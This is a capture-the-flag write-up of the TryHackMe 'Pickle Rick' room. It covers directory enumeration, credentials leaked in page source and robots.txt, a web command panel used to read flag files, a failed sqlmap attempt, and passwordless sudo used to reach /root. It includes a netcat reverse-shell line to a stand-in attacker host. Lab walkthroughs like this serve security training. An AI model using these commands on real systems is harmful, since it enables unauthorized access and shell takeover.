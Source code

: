 # Pickle Rick

{% embed url="https://tryhackme.com/room/picklerick" %}

Upon reading the source code in `http://10.10.253.172/`, I found the username `R1ckRul3s` within the comments.

...

```bash
gobuster dir -u ... -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
...
/assets
/robots.txt
/.htaccess
/.htpasswd
...
```

...

From `/robots.txt`:

`Wubbalubbadubdub`

...

```bash
$ ffuf -u http://<target>/FUZZ.php -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
/login.php
/portal.php
...
```

...

```bash
$ ffuf -h -u http://<target>/FUZZ -w .../Apache_common.txt
/login.php
/portal.php
... 
```

I visited the path `/login.php` , and was presented with a login page. I utilized the information we have gathered earlier to discover the username and password combination of `R1ckRul3s` and `Wubbalubbadubdub` respectively.

**Enumerating the webpage**

&#x20;`/portal.php`:

The following comment was found in the source code:

`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

This is a string that has been base64-encoded multiple times. The plaintext value turns out to be `rabbit hole` . Well, is this a clue, or perhaps a directory path value, name of a file, or simply something just to throw us off?

The main interface presented an input form that accepts commands for a Linux environment. This form will be used to enumerate the Linux system and find the ingredients.

### First ingredient

```bash
$ cat Sup3rS3cretPickl3Ingred.txt # does not work
$ more Sup3rS3cretPickl3Ingred.txt # does not work
$ less Sup3rS3cretPickl3Ingred.txt # WORKS!
mr. meeseek hair
```

### Second ingredient

```bash
$ ls /home
rick ubuntu

$ ls /home/rick
second ingredients

$ less '/home/rick/second ingredients' # 'more' and 'cat' disable
1 jerry tear
```

### Third ingredient

I was having difficulty finding the third ingredient from the file system, as most of my attempts at enumerating the directories returned an empty response. Thus, I decided to further enumerate the webpage.

Upon visiting `/denied.php` ,

We are presented with a message: "Only the REAL rick can view this page." This made me wonder, by _REAL rick_, does this mean we have to somehow access this page via the root account?

**SQL Injection attempt**

I attempted a SQL injection attack on the login form, in hopes of potentially discovering the name and password combination of the root, or higher privilege account.

```sql
...
```

```bash
$ sqlmap -u http://<target>:[port] --data "username=random&password=random&sub=Login" --risk ... -- ... --batch
... no signifcant results
```

The database used in the system seems to either not use an SQL-based database, or is simply not vulnerable to a SQL injection attack.

I decided to focus my efforts back on the shell environment presented in the interface. To provide myself with a more stable shell experience, I tried to establish a remote shell environment through a few methods: reverse shell and SSH connection.

**Attempts to initiate a reverse shell**

```bash
$ perl ... # perl
$ ... # bash
$ ... # python
$ nc <attacker> [port] -e /bin/sh # netcat
```

\
**Attempt to add a new SSH authorized key**&#x20;

```bash
$ ...
```

As mentioned before, access to the third ingredient most likely requires a privileged account. Thus, I attempted to escalate my privileges.

**Linux privilege escalation enumeration**

```bash
$ id
... # no dangerous groups such adm

$ find ..
# no dangerous file privileges

$ sudo -l

Matching Defaults entries for www-data on ip-10-10-49-150:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-49-150:
    (ALL) NOPASSWD: ALL # root privileges without password!!
    
```

**Attempts at abusing my `sudo` privileges to view system logs**

```bash
$ sudo less /var/log/syslog
...

===

```

**Finding the last and final ingredient**

Well, it turns out, the 3rd ingredient is not hidden within any log files, but simply in the `/root` directory.&#x20;

```bash
$ sudo ls -la /root
...
3rd.txt
...

$ sudo less /root/3rd.txt
fleeb juice
```
